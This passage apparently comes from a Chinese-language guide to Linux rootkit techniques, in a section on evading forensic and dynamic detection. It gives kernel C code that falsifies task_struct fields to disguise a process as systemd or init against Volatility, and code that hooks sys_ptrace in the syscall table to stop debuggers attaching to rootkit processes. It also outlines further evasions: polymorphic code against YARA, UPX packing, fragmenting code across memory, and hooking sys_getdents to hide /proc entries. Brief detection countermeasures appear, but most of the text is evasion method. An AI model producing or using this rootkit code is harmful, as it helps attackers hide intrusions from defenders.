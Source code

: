 **针对性**：

* **对抗YARA**：每次运行生成不同代码形态，规避静态特征匹配。
* **增强**：结合UPX壳加密，动态加载解密器，仅在内存中解密。
* **检测方反制**：使用内存扫描（如Volatility的`malfind`）检测解密后的代码。
* **二次绕过**：分片存储代码，分散到多个内存区域，降低`malfind`命中率。

##### 5.1.2 伪造内存镜像

**目标**：规避Volatility的内存分析。

**方法**：伪造`task_struct`字段，模拟合法进程：

```clike
#include <linux/sched.h>

void spoof_task_struct(pid_t pid) {
    struct task_struct *task;
    for_each_process(task) {
        if (task->pid == pid) {
            strncpy(task->comm, "systemd", 16); // 伪装为合法进程名
            task->start_time = ktime_get_boot_ns() - 3600 * 1e9; // 伪造启动时间
            task->pid = 1; // 伪装为init
        }
    }
}
```

**针对性**：

* **对抗Volatility**：修改`task_struct`的`comm`、`pid`和`start_time`，规避`linux_pslist`的异常检测。
* **增强**：定期恢复`task_struct`字段，规避一致性检查。
* **检测方反制**：交叉对比`task_struct`与`/proc`，检测伪造字段。
* **二次绕过**：劫持`sys_getdents`，隐藏`/proc`中的异常条目。

#### 5.2 针对动态检测的绕过

##### 5.2.1 反调试与劫持ptrace

**目标**：规避strace和GDB调试。

**方法**：劫持`sys_ptrace`，阻止调试器附加：

```clike
#include <linux/syscalls.h>

asmlinkage long (*orig_ptrace)(long, pid_t, void *, void *);
asmlinkage long hooked_ptrace(long request, pid_t pid, void *addr, void *data) {
    if (is_protected_pid(pid)) return -EPERM; // 阻止调试Rootkit进程
    return orig_ptrace(request, pid, addr, data);
}

void hook_ptrace(void) {
    disable_write_protection();
    orig_ptrace = sys_call_table[__NR_ptrace];
    sys_call_table[__NR_ptrace] = hooked_ptrace;
    enable_write_protection();
}
```
